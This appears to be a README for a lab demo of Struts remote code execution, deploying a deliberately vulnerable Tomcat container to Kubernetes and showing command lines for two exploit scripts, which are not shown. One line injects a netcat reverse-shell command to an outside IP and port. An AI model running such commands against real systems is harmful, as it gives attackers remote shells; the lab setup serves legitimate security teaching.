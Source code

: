 # Struts Remote Code Execution Demo
Modified scripts that demonstrate remote code execution (RCE) vi command injection into HTML traffic on old version of Apache Tomcat.   
The yaml file will deploy vulnerable container running struts super-app via apache tomcat ver 8.5.29 java website.
The image is pulled via `https://hub.docker.com/repository/docker/skywalke34/struts`

## To deploy the container via yaml file to kubernetes cluster:

`kubectl create -f struts.yaml -n struts`

A service will be created that exposes the super-app website.

To get the ip address of the service:
`kubectl get svc,pods -n struts`
The Apache console will be accessible via `http://<service-ip-address>:8080/`

To access the super-app website, also use the service IP address on port 8080/super-app/orders

*Example:* `http://<:8080/super-app/orders`

Use the IP address from the website with the python scripts to inject a netcat command and sh command to establish a reverse shell from the container.

**struts1.py example**: (see if it's exploitable)
`python3 struts1.py http://xxx.xxx.xxx.xxx:8080/super-app/orders/3 id

**struts-pwn2.py example:** (insert your own IP addresses / port for the reverse shell)
`python struts-pwn2.py --exploit --url 'http://xxx.xxx.xxx.xxx:8080/super-app/orders/3' -c 'nc -nv 123.456.789.100 1337 -e /bin/sh'`
